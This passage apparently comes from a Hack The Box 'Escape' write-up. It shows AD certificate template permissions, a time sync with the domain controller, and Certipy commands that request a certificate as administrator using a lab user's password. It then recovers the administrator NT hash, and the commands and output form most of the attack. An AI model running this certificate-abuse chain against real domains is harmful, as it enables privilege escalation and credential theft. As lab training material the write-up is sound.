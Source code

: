 ```bash
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519

```

Since Domain users have enrollment rights this is an easy privesc, I'll switch over to certipy since it's just easier for me.

But before all of this, make sure that you sync your time with the DC using rdate
```bash
$ sudo rdate -n 10.129.228.253
```

Then we can request the certificate to get the .pfx
```bash
ma1ware@shadow:~/pentest/htb/boxes/Escape$ certipy req -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -u ryan.cooper -p 'NuclearMosquito3' -target sequel.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx
```

Now we just need to get the hash:
```bash
ma1ware@shadow:~/pentest/htb/boxes/Escape$ certipy auth -pfx administrator.pfx 
Certipy v4.7.0 - by Oliver Lyak (ly4k)

/home/ma1ware/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
